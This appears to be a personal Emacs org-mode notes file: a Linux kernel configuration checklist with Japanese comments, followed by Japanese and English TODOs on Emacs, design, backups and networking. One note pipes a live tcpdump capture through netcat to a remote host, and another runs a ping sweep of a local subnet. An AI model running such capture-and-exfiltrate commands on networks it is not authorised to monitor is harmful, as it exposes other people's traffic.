**** Connector - unified userspace <-> kernelspace linker
     ユーザ空間とカーネル空間の結合ドライバ

**** Memory Technology Device (MTD) support
     メインメモリ以外のメモリデバイスのサポート
     素の RAM やフラッシュ ROM をディスクとして扱う機能です。

**** Device Tree and Open Firmware support

**** Parallel port support
**** Plug and Play support

**** Block devices
| Normal floppy disk support | フロッピーディスクを使用可能にするかどうか |
|                            |                                            |
|                            |                                            |

**** Misc devices

**** ATA/ATAPI/MFM/RLL support (DEPRECATED)

**** SCSI device support

**** Serial ATA and Parallel ATA drivers (libata)

**** Multiple devices driver support (RAID and LVM)

**** Generic Target Core Mod (TCM) and ConfigFS Infrastructure

**** Fusion MPT device supportn

**** IEEE 1394 (FireWire) support

**** Macintosh device driversn

**** Network device supportn

**** Input device support

**** Character devices
| Support for user-space parallel port device drivers | /dev/parport の作成                   |
| Hangcheck timer                                     | ハングアップ検出タイマ 主にサーバー用 |
|                                                     |                                       |

**** I2C support

**** SPI support

**** SPMI support

**** HSI support

**** PPS support

**** PTP clock support

**** GPIO Support

**** Dallas's 1-wire support

**** Power supply class support

**** Adaptive Voltage Scaling class support

**** Hardware Monitoring support

**** Generic Thermal sysfs driver

**** Watchdog Timer Support

**** Sonics Silicon Backplane

**** Broadcom specific AMBA

**** Multifunction device drivers

**** Voltage and Current Regulator Support

**** Multimedia support

**** Graphics support

**** Sound card support

**** HID support

**** USB support

**** Ultra Wideband devices

**** MMC/SD/SDIO card support

**** Sony MemoryStick card support

**** LED Support

**** Accessibility support

**** InfiniBand support

**** EDAC (Error Detection And Correction) reporting

**** Real Time Clock  

**** DMA Engine support  

**** Auxiliary Display support  

**** Userspace I/O drivers  

**** Virtualization drivers  

**** Virtio drivers  

**** Microsoft Hyper-V guest support  

**** Staging drivers  

**** X86 Platform Specific Device Drivers  

**** Platform support for Chrome hardware  

**** Hardware Spinlock drivers  

**** Clock Source drivers  

**** Mailbox Hardware Support  

**** IOMMU Hardware Support  

**** Remoteproc drivers  

**** Rpmsg drivers  

**** SOC (System On Chip) specific Drivers  

**** Generic Dynamic Voltage and Frequency Scaling (DVFS) support

**** External Connector Class (extcon) support  

**** Memory Controller drivers  

**** Industrial I/O support  

**** Non-Transparent Bridge support  

**** VME bridge support  

**** Pulse-Width Modulation (PWM) Support  

**** IndustryPack bus support  

**** Reset Controller Support  

**** FMC support  

**** PHY Subsystem  

**** Generic powercap sysfs driver  

**** MCB support  

**** Thunderbolt support for Apple devices  

**** Android  

**** NVDIMM (Non-Volatile Memory Device) Support  

*** Firmware Drivers
    | BIOS Enhanced Disk Drive calls determine boot disk |   |
    | Sets default behavior for EDD detection to off     |   |
    | BIOS update support for DELL systems via sysfs     |   |
    | Dell Systems Management Base Driver                |   |
    | Export DMI identification via sysfs to userspace   |   |
    | DMI table support in sysfs                         |   |
    | iSCSI Boot Firmware Table Attributes               |   |
    | iSCSI Boot Firmware Table Attributes module        |   |
    | Google Firmware Drivers                            |   |

**** EFI (Extensible Firmware Interface) Support
    | EFI Variable Support via sysfs                       |   |
    | Register efivars backend for pstore                  |   |
    | Disable using efivars as a pstore backend by default |   |
    | Export efi runtime maps to sysfs                     |   |

*** File systems

   | Second extended fs support                              |                                                                                                                                                 |
   | Ext2 extended attributes                                |                                                                                                                                                 |
   | Ext2 POSIX Access Control Lists                         |                                                                                                                                                 |
   | Ext2 Security Labels                                    |                                                                                                                                                 |
   | Ext3 journalling file system support                    |                                                                                                                                                 |
   | Default to 'data=ordered' in ext3                       |                                                                                                                                                 |
   | Ext3 extended attributes                                |                                                                                                                                                 |
   | Ext3 POSIX Access Control Lists                         |                                                                                                                                                 |
   | Ext3 Security Labels                                    |                                                                                                                                                 |
   | The Extended 4 (ext4) filesystem                        |                                                                                                                                                 |
   | Ext4 POSIX Access Control Lists                         |                                                                                                                                                 |
   | Ext4 Security Labels                                    |                                                                                                                                                 |
   | Ext4 Encryption                                         |                                                                                                                                                 |
   | EXT4 debugging support                                  |                                                                                                                                                 |
   | JBD2 (ext4) debugging support                           |                                                                                                                                                 |
   | Reiserfs support                                        |                                                                                                                                                 |
   | Enable reiserfs debug mode                              |                                                                                                                                                 |
   | Stats in /proc/fs/reiserfs                              |                                                                                                                                                 |
   | ReiserFS extended attributes                            |                                                                                                                                                 |
   | ReiserFS POSIX Access Control Lists                     |                                                                                                                                                 |
   | ReiserFS Security Labels                                |                                                                                                                                                 |
   | JFS filesystem support                                  |                                                                                                                                                 |
   | JFS POSIX Access Control Lists                          |                                                                                                                                                 |
   | JFS Security Labels                                     |                                                                                                                                                 |
   | JFS debugging                                           |                                                                                                                                                 |
   | JFS statistics                                          |                                                                                                                                                 |
   | XFS filesystem support                                  |                                                                                                                                                 |
   | XFS Quota support                                       |                                                                                                                                                 |
   | XFS POSIX ACL support                                   |                                                                                                                                                 |
   | XFS Realtime subvolume support                          |                                                                                                                                                 |
   | XFS Verbose Warnings                                    |                                                                                                                                                 |
   | XFS Debugging support                                   |                                                                                                                                                 |
   | GFS2 file system support                                |                                                                                                                                                 |
   | GFS2 DLM locking                                        |                                                                                                                                                 |
   | OCFS2 file system support                               |                                                                                                                                                 |
   | O2CB Kernelspace Clustering                             |                                                                                                                                                 |
   | OCFS2 Userspace Clustering                              |                                                                                                                                                 |
   | OCFS2 logging support                                   |                                                                                                                                                 |
   | OCFS2 expensive checks                                  |                                                                                                                                                 |
   | Btrfs filesystem support                                |                                                                                                                                                 |
   | NILFS2 file system support                              |                                                                                                                                                 |
   | F2FS filesystem support                                 |                                                                                                                                                 |
   | Direct Access (DAX) support                             |                                                                                                                                                 |
   | Dnotify support                                         |                                                                                                                                                 |
   | Inotify support for userspace                           |                                                                                                                                                 |
   | Filesystem wide access notification                     |                                                                                                                                                 |
   | fanotify permissions checking                           |                                                                                                                                                 |
   | Quota support                                           | ユーザー毎のディスクの使用容量を制限できる機能をサポートします。個人で Linux を使う場合は不要でしょう。                                         |
   | Report quota messages through netlink interface         |                                                                                                                                                 |
   | Print quota warnings to console (OBSOLETE)              |                                                                                                                                                 |
   | Additional quota sanity checks                          |                                                                                                                                                 |
   | Old quota format support                                |                                                                                                                                                 |
   | Quota format vfsv0 and vfsv1 support                    |                                                                                                                                                 |
   | Kernel automounter version 4 support (also supports v3) | リモートファイルシステムを自動でマウントする機能をサポートします。大規模な分散されたネットワークの一部でないなら、不要らしいので「 n 」にします。 |
   | FUSE (Filesystem in Userspace) support                  | 独自のファイルシステムを作成できる機能 sshfs など                                                                                               |
   | Character device in Userspace support                   |                                                                                                                                                 |
   | Overlay filesystem support                              |                                                                                                                                                 |

**** Caches
     | General filesystem local caching manager           |   |
     | Gather statistical information on local caching    |   |
     | Gather latency information on local caching        |   |
     | Debug FS-Cache                                     |   |
     | Maintain global object list for debugging purposes |   |
     | Filesystem caching on files                        |   |
     | Debug CacheFiles                                   |   |
     | Gather latency information on CacheFiles           |   |
  
**** CD-ROM/DVD Filesystems 
     | ISO 9660 CDROM file system support  | ISO9660 という CDROM で使用される標準的なファイルシステムをサポートします。 |
     | Microsoft Joliet CDROM extensions   |                                                                          |
     | Transparent decompression extension |                                                                          |
     | UDF file system support             |                                                                          |
  
**** DOS/FAT/NT Filesystems 
     | MSDOS fs support             |   |
     | VFAT (Windows-95) fs support |   |
     | Default codepage for FAT     |   |
     | Default iocharset for FAT    |   |
     | NTFS file system support     |   |
     | NTFS debugging support       |   |
     | NTFS write support           |   |

**** Pseudo filesystems 
     | /proc/kcore support                                      |   |
     | /proc/vmcore support                                     |   |
     | Include /proc/<pid>/task/<tid>/children file             |   |
     | Tmpfs virtual memory file system support (former shm fs) |   |
     | Tmpfs POSIX Access Control Lists                         |   |
     | Tmpfs extended attributes                                |   |
     | HugeTLB file system support                              |   |
     | Userspace-driven configuration filesystem                |   |
     | EFI Variable filesystem                                  |   |
  
**** Miscellaneous filesystems 
     | ADFS file system support                                   | Acorn Disc Filing System (ADFS) という RiscOS で標準的に使用されるファイルシステムをサポートします。 |
     | Amiga FFS file system support                              |                                                                                                    |
     | eCrypt filesystem layer support                            |                                                                                                    |
     | Apple Macintosh file system support                        | Machintosh のファイルシステムをサポートします。                                                    |
     | Apple Extended HFS file system support                     |                                                                                                    |
     | HFS+ POSIX Access Control Lists                            |                                                                                                    |
     | BeOS file system (BeFS) support (read only)                |                                                                                                    |
     | BFS file system support                                    |                                                                                                    |
     | EFS file system support (read only)                        |                                                                                                    |
     | Journalling Flash File System v2 (JFFS2) support           |                                                                                                    |
     | JFFS2 debugging verbosity (0 = quiet, 2 = noisy)           |                                                                                                    |
     | JFFS2 write-buffering support                              |                                                                                                    |
     | Verify JFFS2 write-buffer reads                            |                                                                                                    |
     | JFFS2 summary support                                      |                                                                                                    |
     | JFFS2 XATTR support                                        |                                                                                                    |
     | Advanced compression options for JFFS2                     |                                                                                                    |
     | JFFS2 ZLIB compression support                             |                                                                                                    |
     | JFFS2 LZO compression support                              |                                                                                                    |
     | JFFS2 RTIME compression support                            |                                                                                                    |
     | JFFS2 RUBIN compression support                            |                                                                                                    |
     | UBIFS file system support                                  |                                                                                                    |
     | Advanced compression options                               |                                                                                                    |
     | LZO compression support                                    |                                                                                                    |
     | ZLIB compression support                                   |                                                                                                    |
     | LogFS file system                                          |                                                                                                    |
     | Compressed ROM file system support (cramfs) (OBSOLETE)     |                                                                                                    |
     | SquashFS 4.0 - Squashed file system support                |                                                                                                    |
     | File decompression options (Decompress file data into an   |                                                                                                    |
     | Decompressor parallelisation options (Single threaded com  |                                                                                                    |
     | Squashfs XATTR support                                     |                                                                                                    |
     | Include support for ZLIB compressed file systems           |                                                                                                    |
     | Include support for LZ4 compressed file systems            |                                                                                                    |
     | Include support for LZO compressed file systems            |                                                                                                    |
     | Include support for XZ compressed file systems             |                                                                                                    |
     | Use 4K device block size?                                  |                                                                                                    |
     | Additional option for memory-constrained systems           |                                                                                                    |
     | FreeVxFS file system support (VERITAS VxFS (TM) compatible) |                                                                                                    |
     | Minix file system support                                  |                                                                                                    |
     | SonicBlue Optimized MPEG File System support               |                                                                                                    |
     | OS/2 HPFS file system support                              | HPFS は OS/2 という OS 用のファイルシステムです。                                                  |
     | QNX4 file system support (read only)                       | QNX4 という OS で使用されているファイルシステムをサポートします。                                     |
     | QNX6 file system support (read only)                       |                                                                                                    |
     | ROM file system support                                    |                                                                                                    |
     | Persistent store support                                   |                                                                                                    |
     | Log kernel console messages                                |                                                                                                    |
     | Log user space messages                                    |                                                                                                    |
     | Log panic/oops to a RAM buffer                             |                                                                                                    |
     | System V/Xenix/V7/Coherent file system support             |                                                                                                    |
     | UFS file system support (read only)                        | BSD から派生した各種の UNIX の UFS というファイルシステムをサポートします。                             |
     | UFS file system write support (DANGEROUS)                  |                                                                                                    |
     | UFS debugging                                              |                                                                                                    |
     | exofs: OSD based file system support                       |                                                                                                    |
     | Enable debugging                                           |                                                                                                    |

***** JFFS2 default compression mode (priority)
***** RomFS backing stores (Both the above)

**** Network File Systems 
     | NFS client support                                          |                                                                               |
     | NFS client support for NFS version 2                        |                                                                               |
     | NFS client support for NFS version 3                        |                                                                               |
     | NFS client support for the NFSv3 ACL protocol extension     |                                                                               |
     | NFS client support for NFS version 4                        |                                                                               |
     | Provide swap over NFS support                               |                                                                               |
     | NFS client support for NFSv4.1                              |                                                                               |
     | NFS client support for NFSv4.2                              |                                                                               |
     | NFSv4.1 client support for migration                        |                                                                               |
     | Provide NFS client caching support                          |                                                                               |
     | Use the legacy NFS DNS resolver                             |                                                                               |
     | NFS server support                                          |                                                                               |
     | NFS server support for NFS version 3                        |                                                                               |
     | NFS server support for the NFSv3 ACL protocol extension     |                                                                               |
     | NFS server support for NFS version 4                        |                                                                               |
     | Secure RPC: Kerberos V mechanism                            |                                                                               |
     | RPC: Enable dprintk debugging                               |                                                                               |
     | RPC-over-RDMA transport                                     |                                                                               |
     | Ceph distributed file system                                |                                                                               |
     | CIFS support (advanced network filesystem, SMBFS successor) |                                                                               |
     | CIFS statistics                                             |                                                                               |
     | Support legacy servers which use weaker LANMAN security     |                                                                               |
     | Kerberos/SPNEGO advanced session setup                      |                                                                               |
     | CIFS extended attributes                                    |                                                                               |
     | CIFS POSIX Extensions                                       |                                                                               |
     | Provide CIFS ACL support                                    |                                                                               |
     | Enable CIFS debugging routines                              |                                                                               |
     | Enable additional CIFS debugging routines                   |                                                                               |
     | DFS feature support                                         |                                                                               |
     | SMB2 and SMB3 network file system support                   |                                                                               |
     | Provide CIFS client caching support                         |                                                                               |
     | NCP file system support (to mount NetWare volumes)          |                                                                               |
     | Packet signatures                                           |                                                                               |
     | Proprietary file locking                                    |                                                                               |
     | Clear remove/delete inhibit when needed                     |                                                                               |
     | Use NFS namespace if available                              |                                                                               |
     | Use LONG (OS/2) namespace if available                      |                                                                               |
     | Lowercase DOS filenames                                     |                                                                               |
     | Use Native Language Support                                 |                                                                               |
     | Enable symbolic links and execute flags                     |                                                                               |
     | Coda file system support (advanced network fs)              | NFS に似ている進歩的なネットワークファイルシステムである Coda をサポートします。 |
     | Andrew File System support (AFS)                            |                                                                               |
     | Plan 9 Resource Sharing Support (9P2000)                    |                                                                               |
     | Enable 9P client caching support                            |                                                                               |
     | 9P POSIX Access Control Lists                               |                                                                               |
     | 9P Security Labels                                          |                                                                               |
  
**** Native language support 
     Microsoft の FAT ファイルシステムが保持するコードページを設定します。すべてをモジュール化しました。

**** Distributed Lock Manager (DLM) 
     | DLM debugging |   |

*** Kernel hacking
     | Magic SysRq key                                             |   |
     | Kernel debugging                                            |   |
     | Panic on Oops                                               |   |
     | panic timeout                                               |   |
     | Enable extra timekeeping sanity checking                    |   |
     | Stack backtrace support                                     |   |
     | Remote debugging over FireWire early on boot                |   |
     | Enable debugging of DMA-API usage                           |   |
     | Test module loading with 'hello world' module               |   |
     | Test user/kernel boundary protections                       |   |
     | Test BPF filter functionality                               |   |
     | Test firmware loading via userspace interface               |   |
     | udelay test driver                                          |   |
     | Memtest                                                     |   |
     | Filter access to /dev/mem                                   |   |
     | Enable verbose x86 bootup info messages                     |   |
     | Set loadable kernel module data as NX and text as RO        |   |
     | Enable IOMMU stress-test mode                               |   |
     | IO delay type (port 0x80 based port-IO delay [recommended]) |   |
     | Allow gcc to uninline functions marked 'inline'             |   |
     | ATOM Punit debug driver                                     |   |

**** printk and dmesg options
     | Show timing information on printks |   |
     | Default message log level (1-7)    |   |

**** Compile-time checks and compiler options
     | Enable __deprecated logic                         |   |
     | Enable __must_check logic                         |   |
     | Warn for stack frames larger than (needs gcc 4.4) |   |
     | Strip assembler-generated symbols during link     |   |
     | Enable unused/obsolete exported symbols           |   |
     | Debug Filesystem                                  |   |
     | Run 'make headers_check' when building vmlinux    |   |
     | Enable full Section mismatch analysis             |   |
     | Compile the kernel with frame pointers            |   |
  
**** Memory Debugging
     | Extend memmap on extra space for more information on page |   |

**** Debug Lockups and Hangs
**** Lock Debugging (spinlocks, mutexes, etc...)
**** RCU Debugging
     | RCU debugging: sparse-based checks for pointer usage |   |
     | RCU CPU stall timeout in seconds                     |   |
**** Tracers
**** Runtime Testing
     | Perform an atomic64_t self-test at boot                       |   |
     | Self test for hardware accelerated raid6 recovery             |   |
     | Test functions located in the hexdump module at runtime       |   |
     | Test functions located in the string_helpers module at runtim |   |
     | Test kstrto*() family of functions at runtime                 |   |
     | Perform selftest on resizable hash table                      |   |

**** Sample kernel code 

**** Early printk
     | Early printk via EHCI debug port     |   |
     | Early printk via the EFI framebuffer |   |

*** Security options
     | Enable access key retention support                          |   |
     | Enable register of persistent per-UID keyrings               |   |
     | Large payload keys                                           |   |
     | TRUSTED KEYS                                                 |   |
     | ENCRYPTED KEYS                                               |   |
     | Restrict unprivileged access to the kernel syslog            |   |
     | Enable different security models                             |   |
     | Enable the securityfs filesystem                             |   |
     | Socket and Networking Security Hooks                         |   |
     | XFRM (IPSec) Networking Security Hooks                       |   |
     | Security hooks for pathname based access control             |   |
     | NSA SELinux Support                                          |   |
     | Simplified Mandatory Access Control Kernel Support           |   |
     | TOMOYO Linux Support                                         |   |
     | Default maximal count for learning mode                      |   |
     | Default maximal count for audit log                          |   |
     | Activate without calling userspace policy loader.            |   |
     | AppArmor support                                             |   |
     | Yama support                                                 |   |
     | Integrity subsystem                                          |   |
     | Digital signature verification using multiple keyrings       |   |
     | Enables integrity auditing support                           |   |
     | Integrity Measurement Architecture (IMA)                      |   |
     | EVM support                                                  |   |
     | Default security module (Unix Discretionary Access Controls) |   |
  
*** Cryptographic API
     | RSA algorithm                                               |   |
     | Cryptographic algorithm manager                             |   |
     | Userspace cryptographic algorithm configuration             |   |
     | Disable run-time self tests                                 |   |
     | GF (2^128) multiplication functions                          |   |
     | Null algorithms                                             |   |
     | Parallel crypto engine                                      |   |
     | Software async crypto daemon                                |   |
     | Software async multi-buffer crypto daemon                   |   |
     | Authenc support                                             |   |
     | Testing module                                              |   |
     | CCM support                                                 |   |
     | GCM/GMAC support                                            |   |
     | ChaCha20-Poly1305 AEAD support                              |   |
     | Sequence Number IV Generator                                |   |
     | Encrypted Chain IV Generator                                |   |
     | CBC support                                                 |   |
     | CTR support                                                 |   |
     | CTS support                                                 |   |
     | ECB support                                                 |   |
     | LRW support                                                 |   |
     | PCBC support                                                |   |
     | XTS support                                                 |   |
     | CMAC support                                                |   |
     | HMAC support                                                |   |
     | XCBC support                                                |   |
     | VMAC support                                                |   |
     | CRC32c CRC algorithm                                        |   |
     | CRC32c INTEL hardware acceleration                          |   |
     | CRC32 CRC algorithm                                         |   |
     | CRC32 PCLMULQDQ hardware acceleration                       |   |
     | CRCT10DIF algorithm                                         |   |
     | GHASH digest algorithm                                      |   |
     | Poly1305 authenticator algorithm                            |   |
     | MD4 digest algorithm                                        |   |
     | MD5 digest algorithm                                        |   |
     | Michael MIC keyed digest algorithm                          |   |
     | RIPEMD-128 digest algorithm                                 |   |
     | RIPEMD-160 digest algorithm                                 |   |
     | RIPEMD-256 digest algorithm                                 |   |
     | RIPEMD-320 digest algorithm                                 |   |
     | SHA1 digest algorithm                                       |   |
     | SHA224 and SHA256 digest algorithm                          |   |
     | SHA384 and SHA512 digest algorithms                         |   |
     | Tiger digest algorithms                                     |   |
     | Whirlpool digest algorithms                                 |   |
     | AES cipher algorithms                                       |   |
     | AES cipher algorithms (i586)                                |   |
     | AES cipher algorithms (AES-NI)                              |   |
     | Anubis cipher algorithm                                     |   |
     | ARC4 cipher algorithm                                       |   |
     | Blowfish cipher algorithm                                   |   |
     | Camellia cipher algorithms                                  |   |
     | CAST5 (CAST-128) cipher algorithm                           |   |
     | CAST6 (CAST-256) cipher algorithm                           |   |
     | DES and Triple DES EDE cipher algorithms                    |   |
     | FCrypt cipher algorithm                                     |   |
     | Khazad cipher algorithm                                     |   |
     | Salsa20 stream cipher algorithm                             |   |
     | Salsa20 stream cipher algorithm (i586)                      |   |
     | ChaCha20 cipher algorithm                                   |   |
     | SEED cipher algorithm                                       |   |
     | Serpent cipher algorithm                                    |   |
     | Serpent cipher algorithm (i586/SSE2)                        |   |
     | TEA, XTEA and XETA cipher algorithms                        |   |
     | Twofish cipher algorithm                                    |   |
     | Twofish cipher algorithms (i586)                            |   |
     | Deflate compression algorithm                               |   |
     | Zlib compression algorithm                                  |   |
     | LZO compression algorithm                                   |   |
     | 842 compression algorithm                                   |   |
     | LZ4 compression algorithm                                   |   |
     | LZ4HC compression algorithm                                 |   |
     | Pseudo Random Number Generation for Cryptographic modules   |   |
     | Jitterentropy Non-Deterministic Random Number Generator     |   |
     | User-space interface for hash algorithms                    |   |
     | User-space interface for symmetric key cipher algorithms    |   |
     | User-space interface for random number generator algorithms |   |
     | User-space interface for AEAD cipher algorithms             |   |

**** NIST SP800-90A DRBG
     | Enable Hash DRBG |   |
     | Enable CTR DRBG  |   |

**** Hardware crypto devices
     | Support for VIA PadLock ACE                   |   |
     | PadLock driver for AES algorithm              |   |
     | PadLock driver for SHA1 and SHA256 algorithms |   |
     | Support for the Geode LX AES engine           |   |
     | Support for AMD Cryptographic Coprocessor     |   |
     | Support for Intel (R) DH895xCC                 |   |
  
**** Asymmetric (public-key cryptographic) key type

*** Virtualization
     | Kernel-based Virtual Machine (KVM) support |   |
     | KVM for Intel processors support           |   |
     | KVM for AMD processors support             |   |
     | Host kernel accelerator for virtio net     |   |
     | VHOST_SCSI TCM fabric driver               |   |
     | Cross-endian support for vhost             |   |
     | Linux hypervisor example code              |   |

*** Library routines
    | CRC-CCITT functions                                |   |
    | CRC16 functions                                    |   |
    | CRC calculation for the T10 Data Integrity Field   |   |
    | CRC ITU-T V.41 functions                           |   |
    | CRC32/CRC32c functions                             |   |
    | CRC32 perform self test on init                    |   |
    | CRC7 functions                                     |   |
    | CRC32c (Castagnoli, et al) Cyclic Redundancy-Check |   |
    | CRC8 function                                      |   |
    | PRNG perform self test on init                     |   |
    | XZ decompression support                           |   |
    | XZ decompressor tester                             |   |
    | glob self-test on init                             |   |
    | Averaging functions                                |   |
    | CORDIC algorithm                                   |   |
    | JEDEC DDR data                                     |   |
    | Select compiled-in fonts                           |   |

**** CRC32 implementation (Slice by 8 bytes)


* ----- Sepalater -----
* Note:
** インターネットカフェ task
   - shutdown
*** 32G
	- USB32G 起動確認
	- ssh-agent
	- WOL
	  python wol.py
	- sshfs

*** 4G
**** WOL 確認
	 - 環境変数
	   send hotkey #f1

	 - wakeup
	   send hotkey ^+#z
	   wait 40 seconds
	   send hotkey ^#z

	 - scpki

** error framework
   - ミススペルのチェック
   - root であるか確認
** TODO snmp
   read snmp oreilly pdf
   read security acessment oreilly pdf



   <2011-06-17 Fri>
** TODO exchange server
   通信暗号化
   将来性


   <2011-08-01 Mon>
** TODO test aptitude purge xfonts-encodings xfonts-unifont xfonts-utils
   test on test server


   <2011-08-30 Tue>
** TODO backup
   zshrc の backup の方法を考える

   <2011-09-12 Mon>
**  言葉遣い
	何卒事情ご賢察のうえご寛容下さいませ。

    [[file:~/work/emacs23-23.1%2B1/lisp/files.el::if%20and%20default%20coding][file:~/work/emacs23-23.1+1/lisp/files.el::if and default coding]]
    <2012-10-14 Sun>
**  tcpdump on DD-WRT
tcpdump -D
tcpdump -w - -U -n -s 0 -i ppp0 | nc <ip> 8888

    [[http://emtunc.org/blog/04/2011/installing-tcpdump-on-dd-wrt-wrt54gl/][Installing TCPDump on DD-WRT WRT54GL | emtunc's Blog]]
    <2012-10-29 Mon>
**  嵌った時の対処手順
	1. spell ミス 誤字 脱字


    <2012-11-07 Wed>
<<<<<<< .mine
**  linux desktop
- keybind
- hotstring
**  detect ip
for /L %i in (1,1,254) do ping -w 500 -n 1 192.168.1.%i > nul && arp -a 192.168.1.%i

    [[file:~/work/tor_firwall.sh::do]]

** emacs
(cf. http://www.plusastra.com/2012/11/installing-emacs-24-on-debian-wheezy.html,
     http://willnet.in/72)
- # apt-get build-dep emacs
  # git clone --depth 1 https://github.com/emacsmirror/emacs.git
  # cd emacs/
  # apt-get install autoconf automake
  # apt-get install libxaw7-dev libxpm-dev libpng12-dev libtiff5-dev libgif-dev libjpeg8-dev libmagick++-dev
  # ./autogen.sh
  # ./configure --with-x --without-toolkit-scroll-bars --without-pop --without-selinux --prefix=/opt/emacs24 --without-gconf --enable-link-time-optimization --with-wide-init CFLAGS="-O2"
  # make bootstrap
  # cd src
  # make install

** KI BIOS Setting
*** Standard CMOS Features
*** Advanced BIOS Features
- [First Boot Device] Hard Disk
- [Second Boot Device] Disabled
- [Third Boot Device] Disabled
- [Boot Other Device] Enabled
- [Boot Up NumLock Status] On
- [APIC Mode] Enabled
*** Advanced Chipset Features
**** AGP & P2P Bridge Control
- [AGP Aperture Size] 32MB
**** OnChip VGA Control
- [VGA Share Memory Size] 32MB
*** Integrated Peripherals
- [Onboard FDC Controller] Disabled
- [Onboard Serial Port 1] 3F8/IRQ4
*** Power Management Setup
- [ACPI Suspend Type] S3
- [Wake On PCI Card] Enabled
- [USB Port Wake Up Control] Enabled
- [AMD K8 Cool'n' Quiet control] Auto
** code 赤ペン先生
**  python code
import collections
d = collections.defaultdict (lambda:collections.defaultdict (float))
d['poko']['hoge'] += 1.0
**  test
**  test
**  coding live streaming
coding を live で流してお金を得る。
支払いは見ている人が払う形式。
coding 初心者は coding の流れをしることが出来る。
配信している人はお金を得て coding を指摘してもらうことが出来
る。
**  my search 
my local web server
search like google my log
history web 
add local my server
* Todo:
*** 設計の設計
**** TODO なぜ 5
     - このシステムの目的（価値）は？
     - どのような責務を持つ人に使われるのか？
     - どのような外部システムとかかわるのか？
     - システムはどのような使われ方をするのか？　
     - システムとの接点は？
     - その時の入出力情報は？
     - システムに必要な機能は？
     - その機能が使用するデータは？
***** Functionality (機能)
	  - 機能要求
	  - セキュリティ
	  - 汎用性
	  - 将来性
***** Usability (操作性)
      - 使い易さ、分かり易さ
	  - 整合性
	  - 見栄え
	  - 利用マニュアル
***** Reliability (信頼性)
	  - 平均故障時間
	  - 平均故障間隔
	  - 可用性
	  - 故障頻度と深刻さ
	  - 復旧性
	  - 正確さ
      - 予見性
***** Performance (性能)
	  - 処理速度
	  - スループット
	  - 応答時間
	  - リソースの消費量

***** Supportability (保守性)
	  - テストのしやすさ
	  - 拡張性
	  - 適応性
	  - 保守性
	  - 運用性
	  - 構成のしやすさ
	  - インストールのしやすさ
	  - ローカライズのしやすさ

***** Plus (その他)
      - 関係する法律
**** 設計手順
     1. 調査
     2. 設計
     3. 実装
     4. Summary
     5. 重要な要素から設計 :: 後になる程、集中力が落る。
**** 構成作成
- 本の目次から参考にする。
**** 目標 (期待成果)
	 - 時間の削減
***** TODO 簡単に環境を構築できるようにする。
      - OS を再インストールした時などでも，簡単に自分の環境に近い
		ものを構築できるようにする。
		インターネットからダウンロードできるようにする。
***** TODO 文字を一切間違いのないようにする。
	  spell も同じ。

      [[file:~/.emacs.d/ebackup/.svn]]
      <2011-09-17 Sat>

***** TODO コマンド統合
   	  upcase
   	  region が設定されていれば region-upcase
   	  初めてコマンドが実行されカーソル下が小文字なら upcase-char
   	  lastcommand = thiscommand でカーソル下が大文字なら upcase-word

   	  [[file:~/mydoc/memo/memo.org::*Super%20key%20script][Super key 処理の長い script などを割り当てる]]
   	  <2012-10-29 Mon>

**** apropos
apropos で kill delete などのコマンドをさがして設計を考える。

** TODO architect of architecture
*** 要件定義の計画と基準作成 (設計の計画)
**** 調査計画作成
**** 調査分析
**** 見直し
** TODO 道具
*** TODO keybord
- 気になった keybord は買って使って試す。高い物はオークションで
  売る。
- happy hacking
- realforce
*** TODO 椅子
*** TODO 机
*** TODO 部屋
*** TODO ディスプレイ
*** TODO Foot switch
- 怪我した時用に ctrl の代わりに
** TODO インターネットから usb の環境をダウンロードできる仕組みを構築
- putty portforward winscp など、サーバーにアクセスしてデー
  タをダウンロードできる最小限のものを archive 化する。
  A_drive などのサイトにアップロードしておく。
** TODO autohotkey on linux

   [[file:~/.emacs.d/init/view_init.el::Color]]
   <2011-10-05 Wed>
** TODO 正規表現をマスター
   - auto-insert の正規表現を編集
** TODO bookmarklet を種類別にまとめる
** TODO zsh
   completion
   aireplay-ng

   [[file:/data/mydoc/security/penlinux::*Discovery%20Live%20Hosts][Discovery Live Hosts]]
   <2011-10-17 Mon>
** TODO アルゴリズム辞典を作成
** TODO [#B] 正規表現 アルゴリズム

    [[file:~/work/emacs_architect.org::*Maintenance][Maintenance]]
    <2012-11-19 Mon>
** TODO [#C] winscp sync error
like 'http://' file name cannot create unix file name.

    [[file:l:/Autohotkey/script/weekly.ahk]]
** TODO [#C] rook tcpdump python script
        while 1:
            data = conn.recv (blocksize)
            if not data:
                break
            callback (data)
        conn.close ()
    [[file:/etc/crontab]]
** TODO [#C] bus stop timetable check if changed
** TODO [#B] /data all exe 7z archive to normal 7z
** TODO [#C] create printer setting script bat or python
    windows
** TODO [#C] king rook refactoring
** TODO [#C] Leukocyte program
** TODO [#C] generate test code for python
use imenu or py:
    
    [[file:/usr/lib/python2.7/dist-packages/wx-2.8-gtk2-unicode/wx/_core.py]]

* Emacs:
** TODO code reading
   pymacs.el pymacs-round-trip ()

   [[file:/usr/share/emacs/site-lisp/pymacs/pymacs.el::marker%20position%20marker%20limit%20position][file:/usr/share/emacs/site-lisp/pymacs/pymacs.el::marker position marker limit position]]
   <2011-09-29 Thu>
*** mwe-color-box
	read source and create new el

*** TODO yasnippet
** TODO 括弧
   括弧の lisp 括弧が対応していれば終括弧、
   対応していなければ snippet で"$1"$0 を挿入
   - paredit.el ()
** TODO 日記
   - 外部からのメールの一部を記録
*** Calendar mode で org を作る
*** テンプレート作成
	日付
	天気
	いつ誰がどこで何をどのようになぜ snippet
	失敗事項 faile
*** 検索性
*** どこからでも記録、参照
**** web ブラウザで記録
**** メールで記録
	 - デメリット: メールは盗聴、
	   外部サーバーに記録が残る可能性が高い。
*** 1 年 1 ファイル
	- 2011.org
**** January
***** 1 (mon)
	  天気:晴

***** 2 (tus)
***** 3 (wen)
***** 4
***** 5
***** 6
***** 7
***** 8
***** 9
***** 10
***** 11
***** 12
***** 13
***** 14
***** 15
***** 16
***** 17
***** 18
***** 19
***** 20
***** 21
***** 22
***** 23
***** 24
***** 25
***** 26
***** 27
***** 28
***** 29
***** 30
***** 31
**** February
**** March
**** April
**** May
**** June
**** July
**** August
**** September
**** October
**** November
**** December
** TODO [0/2]anything
*** TODO moccur の状態を keep する

    [[file:~/.emacs.d/init/plugin_init.el::global%20set%20key%20C%20M%20f%20anything%20c%20moccur%20occur%20by%20moccur][file:~/.emacs.d/init/plugin_init.el::global set key C M f anything c moccur occur by moccur]]
    <2011-09-17 Sat>

*** TODO [#B] anything
	anything-c-adaptive-history の設定
	history が保存されないので修正

